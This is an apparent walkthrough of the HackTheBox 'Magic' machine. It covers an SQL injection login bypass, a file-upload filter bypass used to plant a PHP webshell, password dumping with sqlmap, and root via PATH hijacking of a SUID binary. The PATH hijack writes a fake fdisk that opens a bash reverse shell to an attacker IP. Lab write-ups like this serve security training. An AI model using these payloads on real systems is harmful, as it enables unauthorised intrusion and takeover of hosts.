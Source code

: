 # HackTheBox - Magic

I started with a simple portscan.

`nmap -sS -sV -T4 10.10.10.185`

![Screenshot0](./screenshots/0.png)

We see an open web server and an open SSH server.

Let's take a closer look at the web server.
The box was pretty straightforward, I didn't have to enumerate much.

![Screenshot1](./screenshots/1.png)

At the bottom left we see *Please Login, to upload images.*

![Screenshot2](./screenshots/2.png)

The login portal was vulnerable to __SQL Injection__.
I quickly found a simple bypass and was able to log in.

`admin'#` and we are in.

![Screenshot3](./screenshots/3.png)

We have the possibility to upload pictures.
And our uploads end up under the following path: `/images/uploads/`

The application checks if we upload only images.
Otherwise the following JS-alert greets us.

![Screenshot4](./screenshots/4.png)

Using Burp I tried to find a working bypass to upload PHP code.
After a few tries I found the following working bypass.

`<FILENAME>.php%0a.png`

![Screenshot5](./screenshots/5.png)

It is important that we prefix `PNG` with .
Also we have to url-encode `%0a` again when calling our PHP code.

And lo and behold, it works!

![Screenshot6](./screenshots/6.png)

I repeated the process and uploaded a simple webshell from which I then established a reverse shell.

![Screenshot7](./screenshots/7.png)

## PrivEsc 1: www-data -> theseus

I was `www-data` and enumerated the system.
For the user `theseus` I first tried a password which I discovered in a php configuration file but it did not work.

So back to our SQL vulnerability!

I used `sqlmap` to exploit the vulnerability and to see if we could find working any passwords.

![Screenshot8](./screenshots/8.png)

__Password Reusing__ now brought me to the Linux user `theseus`.

![Screenshot9](./screenshots/9.png)

## PrivEsc 2: theseus -> root

After searching for SUID binaries I found an interesting binary.

![Screenshot10](./screenshots/10.png)

`/bin/sysinfo`, a custom binary that shows us various system information when run.

`ltrace /bin/sysinfo`

![Screenshot11](./screenshots/11.png)

The binary uses `fdisk` among other things.

With the following steps I use the PATH variable to get root.

- `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/<ATTACKER_IP>/1234 0>&1' > /tmp/fdisk`
- `chmod +x /tmp/fdisk`
- `nc -nlvp 1234`
- `export PATH="/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games"`
- `/bin/sysinfo`

I got a shell as root on my new listener and got the root flag.

![Screenshot12](./screenshots/12.png)
